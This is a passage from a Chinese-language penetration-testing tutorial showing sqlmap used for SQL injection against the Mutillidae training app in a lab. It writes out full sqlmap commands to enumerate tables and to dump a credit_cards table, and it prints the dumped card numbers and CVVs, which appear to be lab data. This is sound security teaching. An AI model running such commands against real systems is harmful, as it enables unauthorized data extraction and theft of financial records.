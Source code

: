 在上面的例子中，`--dbs`参数用于枚举所有可用的，可通过 SQL 注入访问的数据库。我们随后可以对特定数据库直接执行操作。为了提取`owasp10`数据库中的所有表的名称，我们可以使用`--tables`参数让 sqlmap 提取表名称。之后使用`-D`参数来指定从哪个数据库（`owasp10`）提取名称。

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/mutillidae/index. php?page=login.php" --data="username=user&password=pass&login-php-submitbutton=Login" --tables -D owasp10 
                    ** {CUT} ** 
Database: owasp10 
[6 tables] 
+----------------+ 
| accounts       | 
| blogs_table    | 
| captured_data  | 
| credit_cards   | 
| hitlog         | 
| pen_test_tools | 
+----------------+ 
                    ** {TRUNCATED} ** 
```

这样做，我们就可以看到，`owasp10`数据库中存在六个表。这些表包含`accounts, blog_table, captured_data, credit_cards, hitlog, and pen_test_tools`。最明显的表名称是`credit_cards`。为了提取某个指定表的内容，我们可以使用`--dump`参数，之后使用`-D`参数来指定数据库，`-T`参数来指定从哪个表中提取内容。

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/mutillidae/index. php?page=login.php" --data="username=user&password=pass&login-php-submitbutton=Login" --dump -D owasp10 -T credit_cards 
                    ** {CUT} ** 
Database: owasp10 
Table: credit_cards 
[5 entries] 
+------+-----+------------------+------------+ 
| ccid | ccv | ccnumber         | expiration | +------+-----+------------------+------------+ 
| 1    | 745 | 4444111122223333 | 2012-03-01 |
| 2    | 722 | 7746536337776330 | 2015-04-01 | 
| 3    | 461 | 8242325748474749 | 2016-03-01 | 
| 4    | 230 | 7725653200487633 | 2017-06-01 | 
| 5    | 627 | 1234567812345678 | 2018-11-01 | +------+-----+------------------+------------+ 
                    ** {TRUNCATED} **
```

### 工作原理

sqlmap 的原理是提交来自大量已知 SQL 注入查询列表的请求。它在近几年间已经高度优化，并给予之前查询的响应来智能调整注入。在 HTTP POST 参数上执行 SQL 注入的原理是操作添加到 POST 方法请求末尾的数据。

## 7.16 使用 sqlmap 注入捕获的请求

为了简化 sqlmap 的使用流程，可以使用来自 BurpSuite 的捕获请求并使用定义在其中的所有参数和配置来执行 sqlmap。在这个秘籍中，我们会讨论如何使用 sqlmap 来测试和所捕获请求相关的参数。

### 准备
